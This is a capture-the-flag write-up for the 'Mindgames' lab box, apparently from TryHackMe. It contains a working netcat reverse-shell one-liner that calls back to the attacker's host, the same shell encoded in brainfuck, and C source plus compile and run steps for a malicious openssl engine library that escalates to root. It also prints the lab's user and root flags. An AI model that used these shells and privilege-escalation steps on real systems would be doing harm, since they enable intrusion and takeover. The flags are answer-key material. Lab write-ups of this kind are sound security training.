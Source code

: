 > Mindgames | 

## export IP=10.10.212.19

# Nmap 

nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```

# Gobuster

```
index.html
```

In port 80, decoding the brainfuck language we get to see python code.

Creating our reverse shell in python and encoding in brainfuck

# Python reverse shell

```
import os

os.system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.107.21 1234 > /tmp/f')
```

# Brainfuck

```
+++++ +++++ [->++ +++++ +++<] >++++ +.+++ +.+++ .-.++ +.++. <++++ +++++
[->-- ----- --<]> ---.< +++++ +++[- >++++ ++++< ]>+++ +++++ +++++ ++.++
++.<+ +++++ ++++[ ->--- ----- --<]> --.-- -.+++ .---. <++++ +++++ +[->+
+++++ ++++< ]>+.+ +++.< +++++ +++[- >---- ----< ]>--- --.<+ +++++ ++[->
+++++ +++<] >++++ +.+++ +++.- ----- .+.<+ ++[-> ---<] >---- --.++ +++++
+.<++ +++++ +[->- ----- --<]> ----- .-.<+ +++++ ++[-> +++++ +++<] >++++
+++++ ++.-- ---.< +++++ +++[- >---- ----< ]>--- ----- ----- .<+++ [->++
+<]>+ +++++ .<+++ +++++ [->++ +++++ +<]>+ ++++. ----- --.++ +.<++ +++++
+[->- ----- --<]> -.<++ +++++ [->++ +++++ <]>++ ++++. <++++ ++[-> -----
-<]>- ----- -.<++ +++[- >---- -<]>- -.<++ +++++ +[->+ +++++ ++<]> +++++
+++++ +++.- -.--- --.++ +.--- .++++ +++++ .<+++ +++++ [->-- ----- -<]>-
----- ----- ----. <+++[ ->+++ <]>++ ++++. <++++ ++++[ ->+++ +++++ <]>++
+++.- ----- -.+++ .<+++ +++++ [->-- ----- -<]>- .<+++ ++++[ ->+++ ++++<
]>+++ +++.< +++++ +[->- ----- <]>-- ----- .<+++ ++[-> ----- <]>-- .<+++
+++++ [->++ +++++ +<]>+ ++.-- .<+++ +[->+ +++<] >+++. <++++ +++++ [->--
----- --<]> ---.< +++[- >+++< ]>+++ +++.< +++++ +++[- >++++ ++++< ]>+++
++.-- ----- .+++. <++++ ++++[ ->--- ----- <]>-. <++++ +++[- >++++ +++<]
>++++ ++.<+ +++++ ++[-> ----- ---<] >---- --.<+ +++++ +++[- >++++ +++++
<]>++ +++++ ++++. <++++ +++++ [->-- ----- --<]> ----- ----- -.<++ +[->+
++<]> +++++ +.<++ +++++ [->++ +++++ <]>++ .++++ +++.+ ++++. <++++ +++[-
>---- ---<] >---- ----- ----- .<+++ +++++ [->++ +++++ +<]>+ +++.< +++[-
>---< ]>--. <++++ ++++[ ->--- ----- <]>-- ----- -.<++ +[->+ ++<]> ++++.
<++++ +++[- >++++ +++<] >++++ +++++ ++.<+ +++++ ++[-> ----- ---<] >----
----- .<+++ +[->+ +++<] >++.< +++[- >+++< ]>+++ .<+++ +[->- ---<] >----
----. <+++[ ->+++ <]>++ .<+++ +[->- ---<] >-.<+ +++++ +++[- >++++ +++++
<]>++ +++++ ++++. <++++ +++++ [->-- ----- --<]> ----- ----- -.<++ +++++
+[->+ +++++ ++<]> +++++ +++++ ++++. <+++[ ->--- <]>-- .<+++ +++++ [->--
----- -<]>- --.<+ +++[- >++++ <]>+. -.--. <+++[ ->+++ <]>+. <+++[ ->---
<]>-. +++.- .++++ +++.- ----- ---.+ +++.- .<+++ +[->- ---<] >-.<+ +++[-
>++++ <]>+. +.+.+ .<+++ +[->- ---<] >---- .<+++ ++[-> +++++ <]>++ +++.<
+++++ [->-- ---<] >---- -.<++ +[->+ ++<]> +++++ +.<++ +++++ +[->+ +++++
++<]> +++++ .---- ---.+ ++.<+ +++++ ++[-> ----- ---<] >-.<+ +++++ +[->+
+++++ +<]>+ +++++ .<+++ ++++[ ->--- ----< ]>--- ----- ----- -.++. <
```

And converting it to brainfuck and loading in the page we get a shell!!

user.txt
============================
thm{411f7d38247ff441ce4e134b459b6268}
============================

And running linpeas.sh we get something interesting!!

```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

On looking at GTFO bins, we can see that we can upload a malicious library.

openssl.c

```
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```

## Compile into shared library

```
gcc -fPIC -o openssl.o -c openssl.c
gcc -shared -o openssl.so -lcrypto openssl.o
```

Spin up a python server and transfer the `openssl.so` to box.

Now running `openssl req -engine ./openssl.so` gives us root.

root.txt
=============================
thm{1974a617cc84c5b51411c283544ee254}
=============================